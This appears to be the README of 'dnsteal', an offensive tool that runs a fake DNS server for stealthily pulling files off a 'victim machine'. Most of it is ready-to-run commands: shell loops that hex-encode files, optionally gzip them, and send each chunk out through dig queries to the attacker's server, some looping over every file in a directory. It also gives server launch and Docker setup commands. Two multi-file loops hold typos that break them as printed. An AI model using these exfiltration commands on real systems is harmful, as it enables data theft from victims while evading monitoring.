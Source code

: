 # dnsteal

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests. 

Below is an image showing an example of how to use:

![Alt text](https://slimgr.com/images/2015/09/27/d7cb61e9105e62f70e2b866b6be55885.png)

On the victim machine, you simply can do something like so:

```bash
for b in $(xxd -p file/to/send.png); do dig @server $b.filename.com; done
```

**Support for multiple files**

```bash
for filename in $(ls); do for b in $(xxd -p $f); do dig +short @server %b.$filename.com; done; done
```

**gzip compression supported**

It also supports compression of the file to allow for faster transfer speeds, this can be achieved using the "-z" switch:

```bash
python dnsteal.py 127.0.0.1 -z
```

Then on the victim machine send a Gzipped file like so:

```bash
for b in $(gzip -c file/to/send.png | xxd -p); do dig @server $b.filename.com; done
```

or for multiple, gzip compressed files:

```bash
for filename in $(ls); do for b in $(gzip -c $filename | xxd -p); do dig +short @server %b.$filename.com; done; done
```


**Using Docker**

First build the image:
```bash
docker build -t dnsteal .
```

Run it as a daemon:
```bash
docker run -d -p 53:53 dnsteal
```
